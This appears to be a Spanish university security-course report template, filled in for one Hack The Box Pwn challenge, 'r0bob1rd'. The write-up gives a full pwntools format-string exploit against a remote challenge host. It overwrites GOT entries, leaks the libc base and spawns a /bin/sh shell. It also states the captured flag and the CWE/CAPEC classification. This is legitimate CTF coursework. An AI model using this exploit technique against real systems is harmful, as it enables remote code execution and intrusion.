










# Información general

| Campo                 | Valor                               |
|-----------------------|-------------------------------------|
| Estudiante            | Djedrielle Alexander - 2024154899   |
| Estudiante            | Sebastian Donoso - xxxxxxxx         |
| Profesor              | Dr. Herson Esquivel Vargas          |
| Puntos acumulados     | [____] / 2300 XP                    |

---

# 1. Retos resueltos

> Duplicar la subsección completa (1.X) por cada reto resuelto.

## 1.1 [Nombre del reto]

| Campo                | Valor                        |
|----------------------|------------------------------|
| Categoría            | [Pwn / Reversing / Web]      |
| Dificultad           | [Very Easy / Easy / Medium]  |
| Puntos (XP reward)   | [≤ 500]                      |
| Fecha de resolución  | [AAAA-MM-DD]                 |
| Resuelto por         | [Nombre]                     |

### Descripción del reto

[Breve resumen de lo que plantea el reto y qué archivos o servicio se entregan.]

### Procedimiento

**Paso 1 — [Reconocimiento / análisis inicial]**

[Explicación de lo que se hizo y por qué.]


**Paso 2 — [Identificación de la vulnerabilidad]**

[Explicación.]


**Paso 3 — [Explotación]**

[Explicación. Si se usó un script, incluirlo y comentar las partes clave.]

```python
# exploit.py
```


### Herramientas utilizadas

| Herramienta       | Uso en el reto                         |
|-------------------|----------------------------------------|
| [p. ej. Ghidra]   | [Descompilar el binario]               |
| [p. ej. pwntools] | [Automatizar el envío del payload]     |

### Debilidad (CWE)

**CWE-[XXX]: [Nombre de la debilidad]**

[Cómo se manifiesta esta debilidad en el código o la aplicación del reto.]

### Patrón de ataque (CAPEC)

**CAPEC-[XXX]: [Nombre del patrón]**

[Cómo se aplicó este patrón para explotar la debilidad.]

### Bandera

```
HTB{...}
```


## 1.1 r0bob1rd

| Campo                | Valor                        |
|----------------------|------------------------------|
| Categoría            | Pwn      |
| Dificultad           | Easy  |
| Puntos (XP reward)   | 260                      |
| Fecha de resolución  | 4/10/2026                 |
| Resuelto por         | Djedrielle Alexander                     |

### Procedimiento

**Paso 1 — Reconocimiento**

Se utilizó Ghidra para analizar el binario r0bob1rd.





También se utilizó checksec para ver las medidas de seguridad aplicadas al binario:
```
checksec --file=r0bob1rd
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   RW-RUNPATH   83 Symbols	  No	0		2r0bob1rd
```

**Paso 2 — Identificación de la vulnerabilidad**

Se observó que la función `printf(local_78)` no posee formateo de la cadena que imprime. Esto da paso a la explotación de la vulnerabilidad Format String. También se observó que `fgets(local_78,0x6a,stdin)` deja escribir 106 bytes en un buffer de longitud 104. Lo cual permite modificar el canary del stack.

**Paso 3 — Explotación**

```python
from pwn import *
import re

STACK_CHK_FAIL_GOT = 0x602028
MAIN               = 0x400c0f
OFFSET_LIBC        = 0x10E077      # leak(%3$p) - libc_base, el que ya calculaste

filename = "./r0bob1rd"
context.update(arch='amd64', os='linux')

binary = ELF(filename, checksec=False)
libc   = ELF("./glibc/libc.so.6", checksec=False)   # la libc del reto

#io = process(filename)

io = remote("154.57.164.72", 30272)

offset = 8                         # tu buffer arranca en la posición 8

def prepare(payload):
    return payload + b"A" * (104 - len(payload))

# ---------- Iteración 1: __stack_chk_fail GOT -> main (habilita el loop) ----------
payload = b"%4197391x%10$nAA" + p64(STACK_CHK_FAIL_GOT)
io.sendlineafter(b"Select a R0bob1rd >", b"1")
io.sendlineafter(b">", prepare(payload))

# ---------- Iteración 2: leak de libc con %3$p ----------
io.sendlineafter(b"Select a R0bob1rd >", b"1")
io.sendlineafter(b">", prepare(b"%3$p"))

io.recvuntil(b"[Description]\n")
leak_line = io.recvline()
leak = int(re.search(rb"0x[0-9a-f]+", leak_line).group(), 16)

libc_base   = leak - OFFSET_LIBC
system_addr = libc_base + libc.sym['system']

log.info(f"leak      : {hex(leak)}")
log.info(f"libc base : {hex(libc_base)}")
log.info(f"system()  : {hex(system_addr)}")
assert libc_base & 0xfff == 0, "base no alineada — revisá offset/posición del leak"

# ---------- Iteración 3: printf GOT -> system ----------
payload = fmtstr_payload(offset, {binary.got['printf']: system_addr}, write_size='short')
assert len(payload) <= 104, f"payload de {len(payload)} bytes no entra en el buffer"
io.sendlineafter(b"Select a R0bob1rd >", b"1")
io.sendlineafter(b">", prepare(payload))

# ---------- Iteración 4: disparar system("/bin/sh") ----------
io.sendline(b"1")
io.sendline(b"/bin/sh")

io.interactive()
```
#### Encontrar la ubicacion en memoria donde printf escribe el buffer.


#### Encontrar la direccion base de libc en el host remoto.

Si colocamos un breakpoint justo donde se llama al printf que imprimer el buffer y analizamos los registros podemos ver lo siguiente:

En el host remoto



En local



Con el comando `(gdb) info proc mappings` podemos ver la dirección base de libc.so.6
`0x00007ffff7c35000 0x00007ffff7c57000 0x22000            0x0                r--p  /home/djedrielle-alexander/Documents/TEC/Sem6/Segu/Proyectos/segu_p2/scripts/djedrielle/r0bob1rd/a12c7342-35e9-447d-aec5-e2c7b83f695a/glibc/libc.so.6`

Entonces el offset que hay entre la direccion ubicada en el registro rcx y la direccion base de libc.so.6 local es


Con esto tenemos la siguiente formula para encontrar la direccion base de libc.so.6 en el host remoto: `base_libc_remoto = (leak_remoto_de_%3$p) - 0x10E077`

#### Encontrar el offset de la funcion system() de libc


#### Modificar la direccion de retorno de la funcion __stack_chk_fail()
Para tener mayor libertad y poder aprovechar al máximo la vulnerabilidad Format String. Se modificará la dirección de retorno de la función __stack_chk_fail() para que apunte a la dirección donde se encuentra la función main(). De esta manera se dispondrá de múltiples ejecuciones de la función vulnerable. Para esto necesitamos la dirección en GOT de la función __stack_chk_fail() y la dirección en memoria de main().

Offset de __stack_chk_fail()



Offset de main



Las líneas 24, 25 y 26 del script [main_loop.py](scripts/djedrielle/r0bob1rd/a12c7342-35e9-447d-aec5-e2c7b83f695a/main_loop.py) conseguimos modificar la dirección de retorno.

```py
payload = b"%4197391x%10$nAA" + p64(STACK_CHK_FAIL_GOT)
io.sendlineafter(b"Select a R0bob1rd >", b"1")
io.sendlineafter(b">", prepare(payload))
```

Con esto ya conseguimos varias iteraciones de main sin hacer exit. Esto lo podemos aprovechar para leakear la direccion base de libc y posteriormente (analizando el offset de system() en el archivo local de libc.so.6) encontrar la dirección de la función system(). En el script .py la iteración 2 se trata de esto.

```py
io.sendlineafter(b"Select a R0bob1rd >", b"1")
io.sendlineafter(b">", prepare(b"%3$p"))

io.recvuntil(b"[Description]\n")
leak_line = io.recvline()
leak = int(re.search(rb"0x[0-9a-f]+", leak_line).group(), 16)

libc_base   = leak - OFFSET_LIBC
system_addr = libc_base + libc.sym['system']

log.info(f"leak      : {hex(leak)}")
log.info(f"libc base : {hex(libc_base)}")
log.info(f"system()  : {hex(system_addr)}")
```

Por último, lo que queda es modificar la entrada de GOT de printf para que apunte a la dirección de system() y en la siguiente iteración pasar "/bin/sh" como parámetro de printf.

```py
# ---------- Iteración 3: printf GOT -> system ----------
payload = fmtstr_payload(offset, {binary.got['printf']: system_addr}, write_size='short')
assert len(payload) <= 104, f"payload de {len(payload)} bytes no entra en el buffer"
io.sendlineafter(b"Select a R0bob1rd >", b"1")
io.sendlineafter(b">", prepare(payload))

# ---------- Iteración 4: disparar system("/bin/sh") ----------
io.sendline(b"1")
io.sendline(b"/bin/sh")
```
Con esto logramos tener un shell interactivo:



### Herramientas utilizadas

| Herramienta       | Uso en el reto                         |
|-------------------|----------------------------------------|
| Ghidra   | Descompilar el binario               |
| pwntools | Automatizar el envío del payload     |

### Debilidad (CWE)

**CWE-134: Uso de una cadena de formato controlada externamente**

La función `printf(local_78)` recibe el buffer del usuario como cadena de formato, en lugar de usar un formato fijo (`printf("%s", local_78)`). Esto permite inyectar especificadores como `%p` y `%n` para leer y escribir memoria arbitraria.

### Patrón de ataque (CAPEC)

**CAPEC-135: Inyección de cadena de formato**

Se inyectaron especificadores de formato (`%p`, `%n`, `%x`) en la entrada para leakear la dirección base de libc y sobrescribir entradas de la GOT (`__stack_chk_fail` → `main` y `printf` → `system`), hasta lograr la ejecución de `system("/bin/sh")`.

### Bandera

```
HTB{86455bae8e16bb81f3e76ab892669d68}
```


---

# 2. Calendario de resolución

| #  | Fecha Inicio | Reto       | Categoría  | Puntos | Fecha Fin    | Integrante  |
|----|--------------|------------|------------|--------|--------------|-------------|
| 1  |   3-10-2026  | r0bob1rd   | Pwn        | 260    | 4-10-2026    | Djedrielle  |
| 2  | [AAAA-MM-DD] | [Reto 2]   | [Web]      | [XX]   | [AAAA-MM-DD] |             |
| 3  | [AAAA-MM-DD] | [Reto 3]   | [Reversing]| [XX]   | [AAAA-MM-DD] |             |
| …  |              |            |            |        |              |             |

---

# 3. Tabla resumen

> Si el proyecto es individual, eliminar la columna "Estudiante 2".

| Reto       | Categoría   | Djedrielle | Sebastian |
|------------|-------------|--------------|--------------|
| r0bob1rd   | Pwn         |  X           |              |
| [Reto 2]   | [Web]       | [XX]         | [XX]         |
| [Reto 3]   | [Reversing] | [XX]         | [XX]         |
| …          |             |              |              |
| **Total**  |             | **260**   | **[XXXX]**   |

### Verificación de requisitos

| Requisito                          | Cumple   |
|------------------------------------|----------|
| Mínimo 2300 puntos (XP)            | [Sí/No]  |
| Al menos 2 retos de Pwn            | [Sí/No]  |
| Al menos 2 retos de Reversing      | [Sí/No]  |
| Al menos 2 retos de Web            | [Sí/No]  |
| Cada reto vale ≤ 500 puntos        | [Sí/No]  |
